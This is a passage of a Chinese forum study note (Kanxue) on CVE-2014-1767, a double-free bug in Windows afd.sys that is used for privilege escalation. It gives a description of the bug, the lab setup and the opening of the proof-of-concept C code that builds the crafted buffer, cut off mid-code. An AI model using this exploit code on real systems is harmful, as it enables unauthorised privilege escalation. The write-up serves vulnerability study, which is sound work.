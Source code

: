 #  CVE-2014-1767提权漏洞学习笔记   
1900  看雪学苑   2022-09-26 18:04  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FuY06PrMyiaq2pEM5XX2vO9INyYodib4B9DhW8ZLetLibmLPOLgF6ELSojTHKkicVeHmsqibuGF8zDZfA/640?wx_fmt=png "")  
  
本文为看雪论坛优秀文章  
  
看雪论坛作者ID：1900  
#   
  
```
```  
##   
## 1.漏洞描述  
  
  
afd.sys驱动用于支持Win Socket应用程序。由于afd!AfdReturnTpInfo函数调用IoFreeMdl函数释放MDL内存的时候，没有及时将指针清空，导致再次调用的时候会再次释放相同的内存地址，导致双重释放的错误。通过WorkerFatory对象占有释放的内存，利用相关的函数可以实现一次任意地址写入，实现修改关键函数来实现提权。  
  
## 2.实验环境  
  
- 操作系统：Win7 x86 sp1 专业版  
  
- 编译器：Visual Studio 2017  
  
- 调试器：IDA Pro，WinDbg  
  
#   
#   
```
```  
##   
## 1.POC代码分析  
  
  
以下是该漏洞的POC代码：  
```
void POC_CVE_2014_1767()
{
    WSADATA WSAData;
    SOCKET s;
    SOCKADDR_IN sa;
    int ierr;

    // 初始化通信的设备句柄
    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa));

    char outBuf[100];
    DWORD bytesRet;

    DWORD targetSize = 0x310;
    DWORD virtualAddress = 0x13371337;
    DWORD mdlSize = (0x4000 * (targetSize - 0x30) / 8) - 0xFFF - (virtualAddress & 0xFFF);
    DWORD inbuf1[100];

    memset(inbuf1, 0, sizeof(inbuf1));
    inbuf1[6] = virtualAddress;
    inbuf1[7] = mdlSize;
    inbuf1[10] = 1;
```